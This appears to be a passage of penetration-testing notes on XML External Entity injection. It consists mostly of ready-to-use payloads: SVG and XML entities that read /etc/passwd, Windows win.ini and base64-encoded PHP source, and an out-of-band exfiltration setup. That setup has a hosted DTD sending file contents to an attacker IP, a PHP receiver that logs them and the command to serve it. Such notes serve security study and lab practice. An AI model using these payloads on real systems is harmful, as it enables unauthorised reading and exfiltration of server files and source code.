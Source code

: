 #### XML External Entity Injection
---
Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

Once the SVG image is displayed, we should get the base64 encoded content of `index.php`, which we can decode to read the source code.

### Windows
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
	<order>
		<quantity>
			3
		</quantity>
		<item>
			&test;
		</item>
		<address>
			17th Estate, CA
		</address>
	</order>
```

## OOB Exfiltration

Out of band exfiltration may be achieved by referencing external entities hosted on our local machines and then joining the data with exfiltrated data from the target server.

First, the `Document Type Definition` file `xxe.dtd` must be hosted and served locally:
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://10.10.14.232:8000/?content=%file;'>">
```

An `index.php` file is also useful for processing the base64 encoded payload:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Command to host PHP server:
```shell
php -S 0.0.0.0:8000
```

Then, the following payload is made to the endpoint:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.14.232:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

